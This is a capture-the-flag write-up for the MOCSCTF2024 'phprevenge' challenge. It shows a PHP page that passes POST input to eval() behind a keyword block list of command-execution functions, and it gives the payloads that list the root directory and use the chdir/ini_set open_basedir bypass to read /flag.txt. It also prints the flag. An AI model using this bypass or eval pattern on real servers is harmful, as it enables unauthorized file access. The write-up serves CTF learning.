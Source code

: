 # MOCSCTF2024 - phprevenge

- Write-Up Author: 菜鳥程序員1號 \[[菜鳥程序員1號](https://github.com/ian-ng)\]

- Flag: MOCSCTF{N0_b0dyyyyy_kn0w_Better_Php_Than_me}

## Challenge Description:

>this is challenge description

http://34.150.35.67:30304/


## Write up  
1. Open the website
- you just see a website that showing php source code
![img](./assets/img1.png)

2. you can see the source code that contains the following code
```php
<?php 
highlight_file(__FILE__);
//Php 1s Never Die!!!
ini_set('open_basedir','/var/www/html/');
function filter($str){
    if(preg_match('/passthru|\`|exec|call_user_func|pcntl|shell|popen|ob_start|map|array|system/i', $str)){
        return 'Damn Hacker🙉!';
    }
    else{
        return $str;
    }
}
filter(eval($_POST['1']));
?>
```
- it has a open_basedir setting to prevent getting data from parent directory, and it will execute the input from the post request

3. just try if we can find the file of the flag
- we start to scan from the root directory, using Postman to send a POST request to the server with the following payload
![img](./assets/img2.png)

```
array(19) { [0]=> string(3) "bin" [1]=> string(3) "dev" [2]=> string(3) "etc" [3]=> string(4) "flag" [4]=> string(8) "flag.txt" [5]=> string(4) "home" [6]=> string(3) "lib" [7]=> string(5) "media" [8]=> string(3) "mnt" [9]=> string(3) "opt" [10]=> string(4) "proc" [11]=> string(4) "root" [12]=> string(3) "run" [13]=> string(4) "sbin" [14]=> string(3) "srv" [15]=> string(3) "sys" [16]=> string(3) "tmp" [17]=> string(3) "usr" [18]=> string(3) "var" }
```
- we can see that there is a file named "flag.txt" in the root directory, probably this is the file we want

4. try to read the content of the file "flag.txt"
- we send another POST request to the server with the following payload
```php
<?php
  file_get_contents('/flag.txt');
?>
```
![img](./assets/img3.png)

- unfortunately, it has been blocked by the ```open_basedir``` settings
- we need to find another way to read the content of the file

5. in order to bypass the open_basedir restriction, we need to find out the path of current php file path
- we send another POST request to the server with the following payload
```php
<?php
  echo getcwd();
?>
```
![img](./assets/img4.png)

- we can know that the current php file path is ```/var/www/html/```

6. there has a way to bypass the open_basedir restriction, by using change the current directory to a child directory and set the open_basedir to the '..' to the trick
```php
<?php
  mkdir('test');
  chdir('test');
  // current directory is /var/www/html/test
  ini_set('open_basedir','..');
  // now it can access the parent directory from /var/www/html/test, then we can go the root directory
  chdir('..');
  // current directory is /var/www/html
  chdir('..');
  // current directory is /var/www
  chdir('..');
  // current directory is /var
  chdir('..');
  // current directory is /
  ini_set('open_basedir','/');
  // now we can access the root directory, and try to read the content of the file "flag.txt"
  echo file_get_contents('/flag.txt');
?>
```
- then, we send this POST request to the server with the above payload
![img](./assets/img5.png)

7. For the last step, we should remove the test directory to recover the environment
```php
<?php
  rmdir('test');
  var_dump(scandir('.'));
  // array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" }
  // the test directory has been removed
?>
```
![img](./assets/img6.png)